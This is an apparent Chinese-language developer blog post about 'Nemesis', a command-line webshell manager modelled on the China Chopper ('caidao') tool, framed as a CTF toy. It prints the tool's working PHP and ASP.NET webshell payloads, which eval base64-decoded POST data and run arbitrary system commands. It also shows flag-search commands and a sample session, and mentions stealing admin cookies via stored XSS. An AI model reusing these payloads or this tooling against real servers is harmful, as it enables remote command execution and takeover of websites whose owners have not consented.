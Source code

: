 ```yaml
---
title: Nemesis [Cli-Webshell-Manager]
summary: 编写了一个方便网管管理网站的命令行工(cai)具(dao)（U know）
featured-img: caidao 
layout: post
---
```


![](https://upload-images.jianshu.io/upload_images/11356161-0bbf5ccf3bc5e0df.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

借文吐槽补天的漏洞审核，通用模版的管理页面存储XSS，弹出来的管理员cookie都给你看了，补天的大哥还睁着眼说问题不大？？？

***

### 造轮子，命令行菜刀

P.s. 下一个轮子想用`Golang`写一个内网穿透`B/S`工具

***

### 关于此项目

玩具属性，总共也就不到500行代码

本文主要写开发过程的问题，具体使用方法及功能见：

[项目地址](https://github.com/EddieIvan01/Nemesis)

***

项目目录：

```
Nemesis/
    |____nemesis.py            # Manager类，主循环函数
    |____config.json           # Manager模式的Webshell列表配置文件
    |____exploit/
            |____ __init__.py
            |____exp.py        # Windows/Linux两个系统的EXP类，继承自基类BaseEXP
            |____payload.py    # http payload
```

程序分为两种模式：

1. Manager Mode
   读取config.json配置文件，程序入口进入Manager交互，有可选项如切换编码/shell密码，自动寻找Flag，进入交互式shell

2. Shell Mode
   单一shell模式，程序直接进入shell交互

程序架构：

`exploit`包中为http payload相关实现，`WindowsEXP/LinuxEXP`两个类，继承自`BaseEXP`，基类中实现了主要的发送payload等功能。生成payload函数在`payload.py`，根据语言生成参数化payload，为不同系统填入不同指令

`nemesis.py`定义了`Manager`类，提供了管理shell，交互式命令行等等功能

***

菜刀的Payload，可详见`Nemesis/payload.py`

```php
ck = @eval(base64_decode($_POST[a0]));
        
a0 = @ini_set("display_errors","0");
	@set_time_limit(0);
    @set_magic_quotes_runtime(0);echo("->|");
    ;
    $s=base64_decode($_POST["a1"]);
    @system($s);
    die();
        
a1 = whoami
```

```asp
ck = eval(Request.Item["a0"],"unsafe");
a0 = Response.Write("->|");
    var err:Exception;
    try{
    var c="cmd";
    var e=new System.Diagnostics.Process();
    var out:System.IO.StreamReader,EI:System.IO.StreamReader;
    c.UseShellExecute=false;
    c.RedirectStandardOutput=true;
    c.RedirectStandardError=true;
    e.StartInfo=c;
    c.Arguments="/c "+System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Item["a1"]));
    e.Start();
    out=e.StandardOutput;
    EI=e.StandardError;
    e.Close();
    Response.Write(out.ReadToEnd()+EI.ReadToEnd());
    }catch(err){
    Response.Write("ERROR:// "+err.message);
    }
    Response.End();
a1 = whoami
```

***

关于自动找Flag功能：

记得又一次比赛拿到shell了确花了好几分钟找flag文件在哪儿（骂），所以写了这个功能

在`Manager Mode`下，输入`flag`，然后交互式输入`shell index`，输入盘符/目录，即可自动寻找文件名中带`flag`的文件，并自动读取其中内容正则匹配`/(\w+\{[-\w]+\})/`，成功则输出

`Windows`下自动寻找文件的指令

`for /r c:\ %i in (flag.*) do @echo %i`，说起来这还是给学校网站做渗透测试时候get到的姿势

`Linux`下

`find / -name flag.*`

```
> python3 nemesis.py
         _   _                                   _
        | \ | |   ___   _ __ ___     ___   ___  (_)  ___
        |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
        | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
        |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/

             /* Webshell Manager */

[+]Initialize...

[*]Manager mode command:
     enter [index]                       --choose a shell to use
     set [index]:[encode | pwd] xxx      --change shells' encode or passwd
     flag                                --find flag in ctf
     exit

[*]Webshell list
[0] URL => http://127.0.0.1/shell.php   PWD =>pass   OS => win   ENCODE => gbk

@Nemesis> flag
[+]Enter index: 0
[+]Enter dir: f

[+]Flag files:
f:\flag
f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php
f:\tim_recv_file\MobileFile\flag.py
f:\tim_recv_file\MobileFile\flag.txt

[+]Flag found in f:\flag: abc{asdasd798yh9da7yas9dy7}

[+]No flag found in: f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php

[+]No flag found in: f:\tim_recv_file\MobileFile\flag.py

[+]No flag found in: f:\tim_recv_file\MobileFile\flag.txt


[*]Webshell list
[0] URL => http://127.0.0.1/shell.php   PWD =>ck   OS => win   ENCODE => gbk

@Nemesis>
```

